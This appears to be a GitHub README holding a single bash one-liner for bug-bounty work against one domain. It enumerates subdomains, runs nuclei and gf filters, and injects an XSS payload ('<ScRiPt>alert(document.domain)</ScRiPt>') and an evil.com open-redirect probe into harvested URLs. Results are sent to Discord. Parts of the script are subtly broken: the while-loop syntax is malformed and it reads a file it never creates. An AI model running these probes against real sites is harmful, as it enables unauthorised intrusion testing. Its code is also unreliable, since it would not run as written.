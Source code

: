 ### ----------------------------------------------SİNGLE TARGET---------------------------------------------------------------------
## BUGBOUNTY

```bash
mkdir  "/home/$USER/Desktop/Bugbounty/domain.com" && cd  "/home/$USER/Desktop/Bugbounty/domain.com"  && subfinder -d  domain.com  -o subdomains -all    && cat subdomains  | dnsx -silent -a -resp-only   | sort -u > dnsx.txt && cat domains-sub.txt dnsx.txt > domains-sh.txt  && httpx -l domains-sh.txt   -o domains-httpx.txt &&  nuclei -l domains-httpx.txt     -o domains-nuclei.txt -me     report -stats  -si 300  -rc ~/.config/nuclei/report-config.yaml &&  echo "\033[1m WAYBACKURLS STARTED" "\033[0m"     &&  cat domains-httpx.txt | waybackurls | urldedupe > domains-waybackurls.txt &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED domains-waybackurls.txt" "\033[0m"  && echo "\033[37m"  |  wc -l domains-waybackurls.txt   &&  echo "\033[37m\033[1m GF-XSS SCAN STARTED" "\033[0m"         && cat domains-waybackurls.txt | urldedupe | gf xss > domains-xss-urls.txt &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED domains-xss-urls.txt"  "\033[0m"  && echo "\033[37m"  |  wc -l domains-xss-urls.txt    &&  echo "\033[37m\033[1m GF-REDİRECT SCAN STARTED" "\033[0m"         && cat domains-waybackurls.txt | urldedupe | gf redirect > domains-redirect-urls.txt &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED  domains-redirect-urls.txt"  "\033[0m"  && echo "\033[37m"  |  wc -l domains-redirect-urls.txt   &&  echo "\033[37m\033[1m GF-SQLİ SCAN STARTED" "\033[0m"        && cat domains-waybackurls.txt | urldedupe | gf sqli > domains-sqli-urls.txt &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED domains-sqli-urls.txt"  "\033[0m" && echo "\033[37m"  |  wc -l domains-sqli-urls.txt    &&  echo "\033[37m\033[1m GF-LFİ SCAN STARTED" "\033[0m"        &&  cat domains-waybackurls.txt | urldedupe | gf lfi > domains-lfi-urls.txt  &&  echo "\033[37m\033[1m OK" "\033[1m\033[32m SAVED domains-lfi-urls.txt"   "\033[0m"   && echo "\033[37m"  |  wc -l domains-lfi-urls.txt       &&  echo "\033[37m\033[1m GF-SSRF SCAN STARTED" "\033[0m"          &&  cat domains-waybackurls.txt | urldedupe | gf ssrf > domains-ssrf-urls.txt   &&  echo "\033[37m\033[1m OK"  "\033[1m\033[32m SAVED domains-ssrf-urls.txt"   "\033[0m"  && echo "\033[37m"  |  wc -l domains-ssrf-urls.txt        &&  echo "\033[37m\033[1m GF-SSTİ SCAN STARTED" "\033[0m"         &&  cat domains-waybackurls.txt | urldedupe | gf ssti > domains-ssti-urls.txt   &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED domains-ssti-urls.txt"  "\033[0m"   && echo "\033[37m"  |  wc -l domains-ssti-urls.txt       &&  echo "\033[37m\033[1m GF-RCE SCAN STARTED" "\033[0m"          &&  cat domains-waybackurls.txt | urldedupe | gf rce > domains-rce-urls.txt   &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED domains-rce-urls.txt"   "\033[0m"   && echo "\033[37m"  |  wc -l domains-rce-urls.txt       &&  echo "\n\033[34m\033[1m XSS SCAN STARTED" "\033[0m"  && echo "\033[37m"  |  wc -l domains-xss-urls.txt   &&   cat domains-xss-urls.txt  | grep "=" | qsreplace '<ScRiPt>alert(document.domain)</ScRiPt>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<ScRiPt>alert(document.domain)</ScRiPt>" && echo "\033[37m\033[1m "  "\033[40m\033[36m\033[1m" "$host" "\033[40m\033[31m\033[1m" Vulnerable;done  | tee domains-xss-poc.txt &&  echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED domains-xss-poc.txt"   &&  echo "\n\033[34m\033[1m OPEN-REDİRECT SCAN STARTED" "\033[0m"   && echo "\033[37m"  |  wc -l domains-redirect-urls.txt  &&  cat domains-redirect-urls.txt | grep "=" | qsreplace "http://evil.com/" | httpx -sc -title -mr "Evil.Com - We get it...Daily." -o domains-openredirect-poc.txt &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED domains-openredirect-poc.txt" && echo "\n\033[34m\033[1m NOTİFY OPEN-REDİRECT SEND" "\033[0m" && notify -data domains-openredirect-poc.txt  -p discord -d 2 -silent  &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m domains-openredirect-poc.txt SUCCESSFULLY SENT TO DISCORD"  && echo "\n\033[34m\033[1m NOTİFY XSS SEND" "\033[0m" && notify -data domains-xss-poc.txt  -p discord -d 2 -silent   &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m domains-xss-poc.txt SUCCESSFULLY SENT TO DISCORD"   && echo "\n\033[34m\033[1m NOTİFY NUCLEİ SEND" "\033[0m"  && echo "\033[37m"  |  wc -l domains-nuclei.txt    && notify -data domains-nuclei.txt  -p discord -d 2 -silent   &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m domains-nuclei.txt SUCCESSFULLY SENT TO DISCORD" 
```
